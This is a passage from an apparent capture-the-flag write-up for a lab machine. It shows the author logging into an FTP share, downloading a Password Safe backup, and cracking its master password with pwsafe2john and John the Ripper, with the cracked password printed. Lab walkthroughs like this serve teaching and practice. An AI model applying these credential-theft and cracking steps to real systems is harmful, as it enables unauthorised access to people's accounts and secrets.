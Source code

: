 Looks like we don't have any additional permissions on the SMB shares, so let's try the FTP share we found earlier.

```console
$ ftp 10.10.11.42 
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:bashee): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

Bingo! We are logged in on the FTP share and find a `psafe3` backup file.

```console
ftp> dir
229 Entering Extended Passive Mode (|||57646|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||57650|)
125 Data connection already open; Transfer starting.
100% |*****************************************************************************************************|   952       60.39 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (60.08 KiB/s)
```

The backup file protected by a password, but we can decrypt it using `JohnTheRipper`.

```console
$ pwsafe2john.py Backup.psafe3 > pwsafe.hash
$ john pwsafe.hash --wordlist=$ROCKYOU

Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
tekieromucho     (Backu)
```

With the password of the database, we can now use `pwsafe3` and see what is stored inside.

![](/assets/images/writeups/administrator/pwsafe.png)
